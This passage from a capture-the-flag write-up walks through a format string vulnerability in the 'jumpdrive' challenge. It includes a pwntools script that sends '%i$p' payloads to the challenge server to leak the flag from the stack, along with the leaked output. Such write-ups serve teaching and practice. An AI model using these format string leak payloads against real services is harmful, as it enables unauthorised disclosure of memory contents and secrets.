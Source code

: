 It looks like it stores the `flag.txt` file into a stream, reading each char until it hits `0xff` (which is EOF when using fgetc). Then, it asks us where we're going (safely, using fgets), and then just print's out what we entered (using printf).

*But*, look at the decompiled code:

&nbsp;
![]({{ site.baseurl }}/img/jumpdrive/decompiled_loop.png)
&nbsp;

Looks like a [printf vulnerability](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) to me!

So, since we're streaming the flag characters to the stack, we should be able to just printf that location on the stack, and get our flag characters!

This is done using the `%s` format parameter, and also syntax like `"%200$p"` which indicates to read the 200th item on the stack.

We can use some guessing to try to find where our input starts on the stack (which happens to be 10th). Or, we can loop through a bunch of items until we have the whole flag printed:

```python
#!/usr/bin/env python
from pwn import *

context.bits= '64'
context.endian= 'little'
#context.log_level = 'debug'

for i in range(1, 20):
    conn = remote('pwn.ctf.b01lers.com', 1002)
    conn.recvuntil("Where are we going?\n")
    payload = f"%{i}$p"
    conn.sendline(payload)
    context.log_level = 'error'
    while 1<2:
        try:
            print("".join(map(chr, unhex(conn.recvlineS().strip()[2:])[::-1])), end ='')
        except EOFError as e:
            break
        except UnicodeDecodeError as e2:
            continue
print()
```

And running this, give's us:

```python
python jumpdrive_pwn.py
[+] Opening connection to pwn.ctf.b01lers.com on port 1002: Done
ðû³\x1c\xbd\x7fÐ¨Î\x0e@WF\x7fÀÈÂ;\x7fÀ$øKÚ\x7fhbNÿ\x1b\x00\x00ï¾­Þ`¢xÑhU6Í;NÑ\x11@pctf{pr1nTf_1z_4_St4R_m4p}
\x00\x8e\x7f
...
```
